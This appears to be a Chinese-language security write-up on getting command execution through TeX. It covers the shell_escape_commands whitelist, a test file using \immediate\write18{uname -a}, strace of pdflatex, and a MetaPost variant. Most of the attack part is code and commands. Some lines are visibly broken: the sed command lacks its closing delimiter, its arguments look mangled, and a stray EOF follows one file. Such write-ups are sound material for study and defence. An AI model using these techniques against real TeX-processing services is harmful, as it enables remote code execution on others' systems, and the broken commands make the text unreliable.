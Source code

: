 ```
% features to invoke arbitrary other programs, and no known exploitable
% bugs.  All to the best of our knowledge.  They also have practical use
% for being called from TeX.
%
shell_escape_commands = \
bibtex,bibtex8,\
extractbb,\
kpsewhich,\
makeindex,\
mpost,\
repstopdf,\
```

注意shell_escape_commands，该命令能直接进行RCE。创建一个简单tex文件用于测试

```
\documentclass{article}
\begin{document}
\immediate\write18{uname -a}
\end{document}
EOF
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221030212742156.png)

只要能实现uname -a即可rce，用strace编译如下

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221030212832603.png)

uname -a没有被禁，将uname换为kpsewhich搜索系统文件

```
sed -i 's/uname -a/kpsewhich --imminent --pwn' x.tex
```

```
strace -ff -e execve pdflatex x.tex
```

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20221030213249569.png)

如图，成功执行，shell_escape_commands列表的任何二进制文件都能执行。注意一定要在列表内。



mp文件(metapost)也能进行RCE。x.mp代码如下：

```
verbatimtex
\documentclass{minimal}
\begin{document}
etex
beginfig (1)
label(btex blah etex, origin);
endfig;
\end{document}
```
